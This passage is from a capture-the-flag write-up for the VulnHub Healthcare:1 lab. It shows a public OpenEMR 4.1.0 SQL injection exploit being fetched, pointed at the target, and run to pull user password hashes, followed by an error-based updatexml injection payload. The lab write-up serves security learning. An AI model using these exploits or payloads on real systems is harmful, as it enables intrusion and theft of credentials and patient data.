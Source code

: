 **After some trial and error, only `49742.py` Python exploit script works:**
```
┌[siunam♥Mercury]-(~/ctf/VulnHub/Healthcare:1)-[2023.08.21|18:21:07(HKT)]
└> searchsploit -m 49742     
  Exploit: OpenEMR 4.1.0 - 'u' SQL Injection
      URL: https://www.exploit-db.com/exploits/49742
     Path: /usr/share/exploitdb/exploits/php/webapps/49742.py
    Codes: N/A
 Verified: False
File Type: Python script, ASCII text executable
Copied to: /home/siunam/ctf/VulnHub/Healthcare:1/49742.py
```

**Change the IP address of the URL:**
```python
# edit url to point to your openemr instance
url = "http://10.69.96.76/openemr/interface/login/validateUser.php?u="
```

**Run the exploit to extract username and password hash:**
```shell
┌[siunam♥Mercury]-(~/ctf/VulnHub/Healthcare:1)-[2023.08.21|18:26:42(HKT)]
└> python3 49742.py

   ____                   ________  _______     __ __   ___ ____
  / __ \____  ___  ____  / ____/  |/  / __ \   / // /  <  // __ \
 / / / / __ \/ _ \/ __ \/ __/ / /|_/ / /_/ /  / // /_  / // / / /
/ /_/ / /_/ /  __/ / / / /___/ /  / / _, _/  /__  __/ / // /_/ /
\____/ .___/\___/_/ /_/_____/_/  /_/_/ |_|     /_/ (_)_(_)____/
    /_/
    ____  ___           __   _____ ____    __    _
   / __ )/ (_)___  ____/ /  / ___// __ \  / /   (_)
  / /_/ / / / __ \/ __  /   \__ \/ / / / / /   / /
 / /_/ / / / / / / /_/ /   ___/ / /_/ / / /___/ /
/_____/_/_/_/ /_/\__,_/   /____/\___\_\/_____/_/   exploit by @ikuamike

[+] Finding number of users...
[+] Found number of users: 2
[+] Extracting username and password hash...
admin:[...]
```

However, I think the SQL injection vulnerability can be exploited in a different way. Instead of exploiting **time-based SQL injection**, we can also **exploit error-based SQL injection**:

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/VulnHub/Healthcare:1/images/Pasted%20image%2020230821182446.png)

The error indicates that the SQL query has syntax error, which means it's an error-based SQL injeciton.

Let's enumerate the database!

**Find the MySQL's version number:** (All payloads in below are from [PayloadsAllTheThings](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/SQL%20Injection/MySQL%20Injection.md#mysql-error-based))
```sql
' and updatexml(null,concat(0x0a,version()),null)-- -
```
